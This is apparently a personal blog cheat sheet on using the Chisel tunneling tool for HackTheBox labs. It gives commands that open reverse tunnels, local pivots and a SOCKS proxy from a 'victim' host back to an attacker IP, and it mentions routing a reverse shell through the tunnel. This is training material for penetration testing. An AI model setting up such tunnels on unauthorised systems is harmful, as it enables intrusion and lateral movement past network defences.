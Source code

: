 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking, Chisel]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec** for teaching me about chisel.

Get chisel from [here](https://github.com/jpillora/chisel).

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

### Reverse Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* From victim (10.10.10.10 is client).

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

OR

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

  * chisel connect to server.
    
  * and open port 8001 on remote box which is on server. R is for remote,
    
  * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80.
    
So now we can do a curl command from our kali box (curl 127.0.0.1:8001) and we can now access website running on 172.18.0.3:80.

### Local Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel client 10.14.14.14:8000 9001:127.0.0.1:8001
~~~

 * chisel connect to server.
 
 * open port 9001 on client (10.10.10.10).
 
 * any packet to 10.10.10.10:9001 will go through tunnel and land on port 10.14.14.14:8001.

So now send reverse shell to 9001 from somewhere on the network and recieve it on 8001 on attacker box.

### Socks Proxy

Chisel also supports **socks** option.

As usual,

* From attacker box start chisel server.

~~~
chisel server -p 8000 --reverse
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel.exe client 10.14.14.14:8000 R:0.0.0.0:1080:socks
~~~

OR

~~~
chisel.exe client 10.14.14.14:8000 R:socks
~~~

I usually use proxychains. To use proxychains you just have to add the following line to **/etc/proxychains.conf**:

~~~
socks5 127.0.0.1 1080
~~~

Then use proxychains with all your favourite tools,

~~~
proxychains nmap -sC -sT -p 80 172.19.0.4
~~~

There are many other options with chisel that we can use. I only mentioned a few.

Hope this will help..
